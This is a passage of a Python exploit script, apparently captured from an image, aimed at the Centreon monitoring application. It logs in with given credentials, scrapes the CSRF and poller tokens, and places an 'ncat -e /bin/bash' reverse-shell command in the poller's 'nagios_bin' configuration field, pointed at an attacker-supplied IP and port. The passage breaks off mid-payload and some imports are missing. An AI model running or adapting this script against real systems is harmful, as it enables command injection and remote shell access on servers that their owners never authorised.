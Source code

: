 ```
from bs4 import BeautifulSoup
 
# turn off BeautifulSoup warnings
warnings.filterwarnings("ignore", category=UserWarning, module='bs4')
 
if len(sys.argv) != 6:
    print(len(sys.argv))
    print("[~] Usage : ./centreon-exploit.py url username password ip port")
    exit()
 
url = sys.argv[1]
username = sys.argv[2]
password = sys.argv[3]
ip = sys.argv[4]
port = sys.argv[5]
 
 
request = requests.session()
print("[+] Retrieving CSRF token to submit the login form")
page = request.get(url+"/index.php")
html_content = page.text
soup = BeautifulSoup(html_content)
token = soup.findAll('input')[3].get("value")
 
login_info = {
    "useralias": username,
    "password": password,
    "submitLogin": "Connect",
    "centreon_token": token
}
login_request = request.post(url+"/index.php", login_info)
print("[+] Login token is : {0}".format(token))
if "Your credentials are incorrect." not in login_request.text:
    print("[+] Logged In Sucssfully")
    print("[+] Retrieving Poller token")
 
    poller_configuration_page = url + "/main.get.php?p=60901"
    get_poller_token = request.get(poller_configuration_page)
    poller_html = get_poller_token.text
    poller_soup = BeautifulSoup(poller_html)
    poller_token = poller_soup.findAll('input')[24].get("value")
    print("[+] Poller token is : {0}".format(poller_token))
 
    payload_info = {
        "name": "Central",
        "ns_ip_address": "127.0.0.1",
        # this value should be 1 always
        "localhost[localhost]": "1",
        "is_default[is_default]": "0",
        "remote_id": "",
        "ssh_port": "22",
        "init_script": "centengine",
        # this value contains the payload , you can change it as you want
        "nagios_bin": "ncat -e /bin/bash {0} {1} #".format(ip, port),
        "nagiostats_bin": "/usr/sbin/centenginestats",
        "nagios_perfdata": "/var/log/centreon-engine/service-perfdata",
        "centreonbroker_cfg_path": "/etc/centreon-broker",
        "centreonbroker_module_path": "/usr/share/centreon/lib/centreon-broker",
        "centreonbroker_logs_path": "",
        "centreonconnector_path": "/usr/lib64/centreon-connector",
        "init_script_centreontrapd": "centreontrapd",
        "snmp_trapd_path_conf": "/etc/snmp/centreon_traps/",
        "ns_activate[ns_activate]": "1",
```